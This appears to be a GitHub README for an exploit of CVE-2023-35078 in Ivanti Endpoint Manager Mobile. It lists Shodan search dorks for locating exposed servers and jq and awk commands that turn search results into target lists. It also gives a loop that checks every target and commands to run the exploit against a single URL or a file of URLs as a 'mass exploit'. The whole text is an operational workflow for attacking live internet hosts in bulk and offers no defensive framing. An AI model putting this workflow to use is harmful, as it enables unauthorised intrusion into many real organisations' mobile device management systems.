 # CVE-2023-35078
Ivanti Endpoint Manager Mobile exploit <br/>

- Shodan dorks: <br/>
	  http.favicon.hash:362091310 <br/>
	  http.favicon.hash:545827989 <br/>
	  path=/mifs <br/>

- Transform json to data <br/>

      jq -cr 'select(.http.favicon.hash == 545827989) | [ if .ssl? then "https://" else "http://" end , (.ip_str) + ":" + (.port|tostring)] | add' shodan.json > data_file
      jq -cr 'select(.http.favicon.hash == 362091310) | [ if .ssl? then "https://" else "http://" end , (.ip_str) + ":" + (.port|tostring)] | add' shodan.json > data_file
      python shodan-parser.py -o temp_data_file shodan.json
      awk '{print "https://"$0}' temp_data_file > data_file
- How run check. <br/>

   The format of the data_file should be as follows: http://ip_addr:port or https://ip_addr:port <br/> 

      while read line; do ./check.sh $line; done < data_file

- Setup requirements <br/>

      pip install -r requirements.txt

- Run exploit single address . <br/>

      python exploit.py -u http://
- Run mass exploit . <br/>

      python exploit.py -f urls.txt
